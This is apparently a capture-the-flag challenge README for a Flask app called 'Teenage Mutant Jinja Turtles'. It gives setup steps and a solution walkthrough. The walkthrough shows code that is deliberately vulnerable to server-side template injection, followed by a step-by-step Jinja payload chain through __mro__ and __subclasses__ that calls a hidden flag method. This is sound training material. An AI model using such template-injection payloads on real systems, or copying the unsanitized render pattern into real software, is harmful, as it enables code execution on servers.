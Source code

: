 # Teeange Mutant Jinja Turtles 1

My favourite tv show was always 162.254.253.208...Strange name, isn't it? Maybe my new App will help you find out what is the exact name of it.

## Flag

```
temp{temp_flag}
```

## How to run

To set up this challenge locally you need to have python 3.6 and:

1. Install requirements:
```
pip install -r requirements
```
2. Change flag in `challenge/ctf/__init__.py`
   
3. Run app:
```
cd challenge && gunicorn -c gunicorn.py app
```

## Solution

1.  Looking at the source code of main page you can find `/debug_it` endpoint.
 
![Html source code](images/1.png)

2. Part that interests us is here:
```python
ip = request.args.get('ip') or None
if ip is None:
    .
    .
else:
    location = get_location_for(ip)
    try:
        template = render_template_string(render_template('results.html', ip=ip, location=location))
        return template
    except Exception as e:
        logging.error(e)
        abort(500)
```
We can see here that unsaintized IP is passed directly to the HTML

4. We will use Jinja templates. Usefull Jinja/python code:
   
- `__class__` - access working class
- `__mro__` - access classe's parents
- `__subclasses__` - access classe's sublclasses

### Step by step

- We can use `__class__` and `__mro__` to access parents of our main class:
```jinja
{{request.__class__.__mro__}}
```

![mro](images/2.png)

- Now we need to get subclasses of root Object
```jinja
{{request.__class__.__mro__[11].__subclasses__()}}
```

![sub](images/3.png)

- We have our Flag `(in my case it is 495th in array of subclasses)` class but we want to see it's methods:
```jinja
{{request.__class__.__mro__[11].__subclasses__()[495].__dict__}}
```

![dict](images/4.png)

- There it is! Now just access method `get_flag` directly:
```jinja
{{request.__class__.__mro__[11].__subclasses__()[495].get_flag()}}
```

![flag](images/5.png)